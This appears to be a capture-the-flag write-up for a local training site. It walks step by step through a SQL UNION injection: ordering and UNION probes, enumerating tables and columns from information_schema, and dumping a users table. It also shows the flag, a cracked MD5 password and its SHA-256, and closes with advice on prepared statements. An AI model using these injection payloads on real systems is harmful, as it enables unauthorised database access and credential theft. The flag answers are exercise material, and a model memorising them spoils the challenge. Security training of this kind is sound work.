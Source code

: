 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
Navigate to http://0.0.0.0/index.php?page=member
> * Input into data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error:  
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_  
> **users**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_  
>**user_id,first_name,last_name,town,country,planet,Commentaire,countersign**
>4. Find data  
 >_1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_  
 <br>**5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**  
 <br>_MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_  
 <br> _toLower -> FortyTwo => fortytwo_  
 <br>_Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_  

> * https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

## Prevention
> * Prepared statements: allows the database to distinguish between code and data, regardless of what user input is supplied.
> * https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html